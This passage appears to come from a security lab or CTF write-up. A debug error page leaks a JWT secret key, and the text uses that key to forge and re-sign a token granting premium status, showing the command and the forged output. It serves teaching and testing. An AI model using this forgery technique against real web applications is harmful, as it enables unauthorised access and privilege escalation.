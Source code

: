 ![Screenshot of the tampered JWT token debug page](./imgs/JWT-error.png "Error message from tampering with JWT")

This error message reveals the JWT secret key is `c2d8fcad50a5b6ec` in this case. Using this value, we can alter the JWT and correctly sign it afterwards. The web server will now believe that it signed the JWT and will trust the contents. We can use `https://jwt.io` or the command line again:

```bash
jwt encode --secret=c2d8fcad50a5b6ec '{
  "fresh": false,
  "iat": 1732564442,
  "isPremium": true,
  "jti": "107436a8-a5fd-4099-b9e2-0feccf56926b",
  "nbf": 1732564442,
  "sub": "test",
  "type": "access"
}'

# Outputs eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMjU2NDQ0MiwiaXNQcmVtaXVtIjp0cnVlLCJqdGkiOiIxMDc0MzZhOC1hNWZkLTQwOTktYjllMi0wZmVjY2Y1NjkyNmIiLCJuYmYiOjE3MzI1NjQ0NDIsInN1YiI6InRlc3QiLCJ0eXBlIjoiYWNjZXNzIn0.m-SbbcjwgczoUUAmE905rN9xGhj8ZjVdy1Glqbb_xUQ
```
